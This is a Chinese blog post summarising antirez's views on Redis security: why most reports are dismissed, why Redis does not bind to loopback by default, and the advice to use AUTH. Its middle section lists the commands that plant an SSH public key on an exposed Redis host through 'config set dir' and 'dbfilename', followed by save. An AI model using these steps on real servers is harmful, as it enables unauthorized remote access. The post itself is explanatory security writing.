 +++
title = "Redis的安全哲学"
draft = false
date = "2016-02-15"
Categories = ["AkiRoss"] 
Description = "" 
Tags = ["redis","安全"] 
toc = true

+++

最近看到Redis的作者antirez写的一篇blog: http://antirez.com/news/96
里面有些东西很有意思.摘录一些观点:
## 为什么Redis这么多"安全漏洞"?

作者说经常收到一些Redis不安全的Report,但是大部分Report其实跟Redis没有什么关系或者说对Redis来说无关紧要.因为Redis的绝大多数用户都是将Redis放到一个安全的环境里面,而安全是一个很大的feature,Redis不会为了一小撮用户做开发这么复杂的功能. 
>it’s totally insecure to let untrusted clients access the system, please protect it from the outside world yourself

## 一次Hack过程
安全页面写到: http://redis.io/topics/security
>the ability to control the server configuration using the CONFIG command makes the client able to change the working directory of the program and the name of the dump file. This allows clients to write RDB Redis files at random paths, that is a security issue that may easily lead to the ability to run untrusted code as the same user as Redis is running

所以,使用config命令可以往主机的Path写文件,作者展示了这一过程(为防止有些`script kiddies cut & paste the attack`,没有直接提供一个脚本,并且还首先备份了当前的数据,这里省略一些无关紧要的步骤):

1. 生成一对RSA key,并且写到一个文件里面,前后加上换行符
```
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```
2. 将public key写到一个KV里面
```
cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
```
3. 设置工作目录
```
config set dir /Users/antirez/.ssh/
```
4. 将内存中数据保存到Db文件中
```
config set dbfilename "authorized.keys"
save
```

大功告成!

## 为什么不默认bind 127.0.0.1?
事实上,如果启动时候带上默认的配置文件(redis.conf),就不存在这个安全隐患,因为配置文件里面默认是只绑定了Loopback address.既然作者知道这个安全隐患,为什么不默认启用这个配置文件呢?(就像Mysql那样).

作者的解释是,因为RTFM（Read The Fucking Manual）

## 使用Auth
虽然并不能真正解决安全问题..最简单有效的方法就是使用Auth.使用Auth的的几点说明:
1. 密码要尽可能的复杂,以防被brute force
2. Auth的消耗非常少,只是在连接建立时候做一次鉴权,只有连接在,就不用再做鉴权
3. 未来可能会有ACL机制,比如某些用户并没有`config set dir`的权限


